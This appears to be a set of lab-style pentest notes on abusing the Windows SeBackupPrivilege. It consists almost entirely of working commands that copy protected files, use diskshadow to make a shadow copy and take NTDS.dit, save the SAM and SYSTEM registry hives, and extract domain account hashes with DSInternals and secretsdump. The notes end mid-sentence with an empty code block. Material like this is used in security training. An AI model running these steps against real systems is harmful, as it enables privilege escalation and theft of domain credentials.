 https://ss64.com/nt/syntax-security_groups.html
```
whoami /priv
```
Import the modules
```
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```
Verify privs
```
whoami /priv
```
```
Copy-FileSeBackupPrivilege 'c:\Users\Administrator\Desktop\SeBackupPrivilege\flag.txt' .\flag.txt
```
```
cat .\flag.txt
```
## Copying NTDS.dit
```
diskshadow.exe
```
```
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```
```
 Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\tools\dump\ntds.dit
```
## Backing up SAM and SYSTEM Registry Hives
The privilege also lets us back up the SAM and SYSTEM registry hives, which we can extract local account credentials offline using a tool such as Impacket's secretsdump.py

run cmd.exe as admin
```
reg save HKLM\SYSTEM SYSTEM.SAV
```
```
reg save HKLM\SAM SAM.SAV
```
It's worth noting that if a folder or file has an explicit deny entry for our current user or a group they belong to, this will prevent us from accessing it, even if the FILE_FLAG_BACKUP_SEMANTICS flag is specified.
## Extracting Credentials from NTDS.dit
```
Import-Module .\DSInternals.psd1
```
```
$key = Get-BootKey -SystemHivePath .\SYSTEM
```
```
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```
or transfer the 
files we dumped to the attack box and run secretsdump
```
```